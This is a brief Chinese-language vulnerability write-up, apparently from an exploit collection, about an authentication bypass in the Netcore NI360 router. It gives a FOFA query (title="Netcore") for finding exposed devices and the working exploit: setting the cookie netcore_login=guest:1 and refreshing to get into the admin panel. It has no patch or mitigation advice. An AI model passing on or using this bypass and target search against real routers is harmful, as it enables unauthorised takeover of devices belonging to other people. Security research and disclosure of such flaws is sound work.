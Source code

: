 # 磊科-NI360路由器-认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

>磊科 NI360路由器

## FOFA

> [!NOTE]
>
> title="Netcore"

## 漏洞描述

登录页面如下

![](磊科-NI360路由器-认证绕过漏洞.assets/1627363631662773.jpg)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![image-20210609175225486](磊科-NI360路由器-认证绕过漏洞.assets/16273636320911748.jpg)

